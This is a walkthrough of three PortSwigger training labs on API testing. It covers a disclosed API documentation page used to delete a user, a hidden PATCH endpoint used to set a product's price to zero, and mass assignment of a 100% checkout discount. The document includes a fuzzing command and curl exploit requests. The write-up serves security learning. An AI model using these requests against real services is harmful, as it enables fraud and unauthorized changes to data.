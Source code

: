 # API Testing
## Summary
- Lab 01: Exploiting an API endpoint using documentation
- Lab 02: Finding and exploiting an unused API endpoint
- Lab 03: Exploiting a mass assignment vulnerability
## Lab 01: Exploiting an API endpoint using documentation
- If we tried to discover the attack service of the application, we will find an `/api` path that indicate the application is using an api in its functionalities.
  
![fuffAPI1.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/API%20Testing%20Labs/images/fuffAPI1.png)

- If we access this path, we will find the `API documentation` disclosed for all the endpoints that the API uses.

![docsAPI.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/API%20Testing%20Labs/images/docsAPI.png)

- So now we can delete the `carlos` user:

![deleteuser 1.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/API%20Testing%20Labs/images/deleteuser%201.png)

------
## Lab 02: Finding and exploiting an unused API endpoint
- I tried fuzzing again but there is not something interested.

```sh
$ dirsearch -u https://0a6300f004fb6b8e80aba8eb00100062.web-security-academy.net -w /usr/share/wordlists/SecLists-master/Discovery/Web-Content/api/objects.txt

Target: https://0a6300f004fb6b8e80aba8eb00100062.web-security-academy.net/

[10:37:53] Starting:                                                                               
[10:38:05] 200 -  901B  - /cart                                             
[10:38:16] 200 -    2KB - /favicon.ico                                      
[10:38:16] 200 -    2KB - /filter                                           
[10:38:27] 200 -    1KB - /Login                                            
[10:38:27] 200 -    1KB - /login                                            
[10:38:27] 302 -    0B  - /logout  ->  /                                    
[10:38:36] 400 -   50B  - /product                                          
   
Task Completed 
```

- I have gone to complete by walking through the source code for the application and, i found a path for javascript code locating in this path `resources/js/api/productPrice.js`

![sourcecode.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/API%20Testing%20Labs/images/sourcecode.png)

- In the `productPrice.js` file, i have found an endpoint for the API:

![js_code.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/API%20Testing%20Labs/images/js_code.png)

- We can try to access this endpoint and see the response for that:

![jacket1.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/API%20Testing%20Labs/images/jacket1.png)

- So why not trying to change the request method into `PATch` method to modify the jacket price:

![contentType.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/API%20Testing%20Labs/images/contentType.png)
- OK, it needs the `Content-Type` header as `application/json` data type.
- The final form for the request will look like that:

```sh
$ curl -X PATCH -H "Cookie: session=on9pyVzZ5fUoHRFB0UFLbupX42XMRDpO" -H "Content-Type: application/json" https://0add00a2035d20b782d1019500910019.web-security-academy.net/api/products/1/price -d '{"price":00,"message":"ayhaga"}' | jq
```

![curl final exploit.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/API%20Testing%20Labs/images/curl%20final%20exploit.png)

- We have changed the price jacket into `$0.00`, We can buy that now in free.

![free.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/API%20Testing%20Labs/images/free.png)

----
## Lab 03 : Exploiting a mass assignment vulnerability
- During testing the functionality of the application, i detected an `API` endpoint for the checkout function `/api/checkout`.
- When placing the order, the API makes two requests, one of the with `GET` request method to get the items information:

![checkout.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/API%20Testing%20Labs/images/checkout.png)

- The second request is made by using the `POST` request method to create the order, but it sends `INSUFFICIENT_FUNDS` error because i don't have enough cash to place the order.

![createorder.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/API%20Testing%20Labs/images/createorder.png)

- So we can make a little bit of changes to the request by adding the `chosen_discount` parameter to make a discount for my order 100 percent.

```sh
$ curl -i -X POST -H "Cookie:session=5lsFt4KJSfBlSTqXbQbAycD2ZqfyYjYM" https://0a2b009703e577ab852245b9006000b8.web-security-academy.net/api/checkout -d '{
"chosen_discount": {
    "percentage": 100
  },"chosen_products":[{"product_id":"1","quantity":1}]}'

HTTP/2 201 
location: /cart/order-confirmation?order-confirmed=true
x-frame-options: SAMEORIGIN
content-length: 0
```
